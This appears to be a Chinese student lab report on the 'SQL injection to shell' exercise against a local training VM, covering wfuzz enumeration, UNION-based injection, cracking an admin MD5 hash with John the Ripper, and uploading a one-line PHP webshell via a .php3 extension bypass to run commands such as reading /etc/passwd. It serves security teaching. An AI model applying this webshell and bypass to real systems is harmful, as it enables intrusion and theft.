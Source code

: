 # 实验三 从SQL注入到Shell

### 实验目的

在基于PHP的网站中使用SQL注入并使用它来访问管理页面，用这种访问，在目标服务器上获得代码执行。

### 实验步骤

攻击分为3个步骤：

* 指纹：收集有关Web应用程序和正在使用的技术的信息。
* SQL注入的检测和利用：学习SQL注入如何工作以及如何利用它们来检索信息。
* 访问管理页面和代码执行：访问操作系统和运行命令的最后一步。

### 环境配置

目标机和攻击者主机配置在统一局域网段，使攻击者主机可以访问目标机。

目标机IP：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E9%9D%B6%E6%9C%BAIP.png)

攻击者主机IP：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%94%BB%E5%87%BB%E8%80%85%E4%B8%BB%E6%9C%BAIP.png)

配置结果：

![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/ping%E6%95%88%E6%9E%9C.png)

### 实验过程

#### 收集指纹

   * HTTP请求，通过观察服务器发回的HTTP头来检索PHP版本和Web服务器的信息：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/HTTP%E8%AF%B7%E6%B1%82%E6%B5%8B%E8%AF%95.png)

   * 使用Burp Suite作为代理检索相同的信息：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/BurpSuite%E5%8A%AB%E6%8C%81.png)

   * HTTPS请求失败，说明应用程序只能通过HTTP（没有任何运行在端口443上）：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/HTTPS%E8%AF%B7%E6%B1%82%E5%A4%B1%E8%B4%A5.png)

   * 工具wfuzz使用蛮力检测Web服务器上的目录和页面：

     1）使用命令：<br/>
     `$ python wfuzz.py -c -z file,wordlist/general/big.txt --hc 404 http://vulnerable/FUZZ`

     其中：<br/>
     `-c 表示高亮显示`<br/>
     `-z file，wordlist / general / big.txt  告诉wfuzz使用文件wordlists / general / big.txt作为字典来强制远程目录的名字。`<br/>
     ` --hc 404  告诉wfuzz忽略响应，如果响应代码是404（Page not found）`<br/>
     `http：// vulnerable / FUZZ  告诉wfuzz用字典中的每个值替换URL中的FUZZ这个词。`<br/>

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%A3%80%E6%B5%8B%E8%BF%9C%E7%A8%8B%E6%96%87%E4%BB%B6%E5%92%8C%E7%9B%AE%E5%BD%95.png)

     2）检测远程目录下的PHP脚本

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%A3%80%E6%B5%8B%E8%BF%9C%E7%A8%8B%E7%9B%AE%E5%BD%95%E4%B8%8B%E7%9A%84PHP%E8%84%9A%E6%9C%AC.png)

#### SQL注入的检测和利用

   * 因为单引号，数据库会引发错误。由于显示了错误消息，因此很容易检测到网站中的任何漏洞。这里提示语法错误，显示数据库为Mysql

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%8F%91%E7%8E%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%BAMySQL.png)

   * 基于数字的检索

      *用户提供的值被视为一个整数直接回显到SQL请求中*

       1）效果1

       ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%9F%BA%E4%BA%8E%E6%95%B0%E5%AD%97%E7%9A%84%E6%A3%80%E7%B4%A21.png)

       2）效果2

       ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%9F%BA%E4%BA%8E%E6%95%B0%E5%AD%97%E7%9A%84%E6%A3%80%E7%B4%A22.png)

   * 利用UNION开发SQL注入

     * 获得数据库版本号

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E6%95%B0%E6%8D%AE%E5%BA%93%E7%89%88%E6%9C%AC%E5%8F%B7.png)

     * 获得系统当前用户名：

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E7%B3%BB%E7%BB%9F%E7%94%A8%E6%88%B7%E5%90%8D.png)

     * 当前数据库名：

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%BE%97%E5%BD%93%E5%89%8D%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D.png)

     * 使用ORDER BY语句（告诉数据库应该使用哪个列对结果进行排序）猜测列的数量，语句中的列号大于查询中的列数4，抛出错误

     ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/Order%20by%E6%B5%8B%E8%AF%95.png)

   * MySQL提供的表格包含有关自MySQL 5以来可用的数据库，表格和列的元信息。使用这些表来检索我们需要建立最终请求的信息。这些表存储在数据库information_schema中。

      * 检索数据库中的所有表名

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E6%89%80%E6%9C%89%E8%A1%A8%E5%90%8D.png)

      * 检索数据库中的所有列名

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E6%89%80%E6%9C%89%E5%88%97%E5%90%8D.png)

      * 检索数据库中表名列名的对应关系

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E8%AF%A2%E6%95%B0%E6%8D%AE%E5%BA%93%E4%B8%AD%E8%A1%A8%E5%90%8D%E5%88%97%E5%90%8D%E5%AF%B9%E5%BA%94%E5%85%B3%E7%B3%BB.png)

   * 使用关键字CONCAT注入的同一部分中连接表名和列名，构建一个查询来从这个表中检索信息，获取用于访问管理页面的用户名和密码：

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2%E7%9A%84%E7%94%A8%E6%88%B7%E5%90%8D%E5%92%8C%E5%AF%86%E7%A0%81.png)

   * 访问管理页面和代码执行

     * 使用工具John-The-Ripper破解密码

      * 进入字典所在文件路径，并查看路径下的文件

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%BF%9B%E5%85%A5%E5%AD%97%E5%85%B8%E6%89%80%E5%9C%A8%E6%96%87%E4%BB%B6%E8%B7%AF%E5%BE%84.png)

      * 解压缩字典文件，查看详细信息并显示头

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%A7%A3%E5%8E%8B%E7%BC%A9%E5%AD%97%E5%85%B8%E6%96%87%E4%BB%B6.png)

      * 创建password文件，包含待解密密码。为John提供正确格式的信息：把用户名和密码放在冒号“：”分隔的同一行。

        `admin:8efe310f9ab3efeae8d410a8e0166eb2`

      ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E7%A0%B4%E8%A7%A3%E5%AF%86%E7%A0%81.png)

      命令含义<br/>
      `password.txt告诉john什么文件包含密码哈希`<br/>
      `--format = raw-md5告诉john密码哈希是raw-md5格式`<br/>
      `--wordlist = xxxx 告诉john使用路径xxxx下的文件作为一个词典`<br/>
      `--rules告诉John尝试提供每个单词的变体`

      密码破解成功为:P4ssw0rd

#### 上传Webshell脚本

  * 根据破解的密码和SQL注入查询到的用户名进入管理界面

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%BF%9B%E5%85%A5%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2.png)

  * 登录成功

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E7%AE%A1%E7%90%86%E9%A1%B5%E9%9D%A2%E7%99%BB%E5%BD%95%E6%88%90%E5%8A%9F.png)

  * 发现文件上传功能

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E5%8F%91%E7%8E%B0%E4%B8%8A%E4%BC%A0%E6%96%87%E4%BB%B6%E5%8A%9F%E8%83%BD.png)

  * 创建PHP脚本,  该脚本获取参数cmd的内容并执行它
    ```Php
    <?php
    system($_GET['cmd']);
    ?>
    ```

  * 上传失败后（提示禁止上传php）更改后缀名，上传成功

  *(该应用程序阻止文件扩展名为.php上传,使用php3为后缀名绕过.php的过滤)*

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E4%B8%8A%E4%BC%A0php%E6%96%87%E4%BB%B6.png)

  * 找到PHP脚本的位置，要确保该文件可以直接用于Web客户端。可以访问新上传图片的网页，查看<img标签指向的位置：

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E4%B8%8A%E4%BC%A0%E7%9A%84php%E6%96%87%E4%BB%B6.png)

### 实验结果

   代码执行（访问以下地址的页面，并使用cmd参数开始运行命令）：
   * 访问http：//vulnerable/admin/uploads/shell.php3？cmd = uname将在操作系统上运行命令uname并返回当前内核。

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E7%9B%AE%E6%A0%87%E6%9C%BA%E5%86%85%E6%A0%B8.png)

   * ls获取当前目录的内容

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E5%BD%93%E5%89%8D%E7%9B%AE%E5%BD%95%E7%9A%84%E5%86%85%E5%AE%B9.png)

   * cat / etc / passwd获取系统用户的完整列表

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%9F%A5%E7%9C%8B%E7%9B%AE%E6%A0%87%E6%9C%BA%E7%B3%BB%E7%BB%9F%E7%94%A8%E6%88%B7%E5%88%97%E8%A1%A8.png)

   * 无法获取文件/ etc / shadow的内容，因为web服务器无法访问此文件

     *（webshell与运行PHP脚本的web服务器具有相同的权限）*

  ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E6%97%A0%E6%B3%95%E8%8E%B7%E5%8F%96%E6%96%87%E4%BB%B6shadow%E7%9A%84%E5%86%85%E5%AE%B9.png)

   * 运行ls / etc获取目录/ etc /的内容

   *（每个命令独立于以前的命令运行在一个全新的上下文中，无法通过运行cd / etc和ls来获取/ etc /目录的内容，因为第二个命令将处于新的上下文中。）*

   ![](https://raw.githubusercontent.com/15xinanwzy/ns/master/2017-2/wyq_wzy_lw/wzy_HW/HW_3/Images/%E8%8E%B7%E5%8F%96%E7%9B%AE%E5%BD%95etc%E7%9A%84%E5%86%85%E5%AE%B9.png)
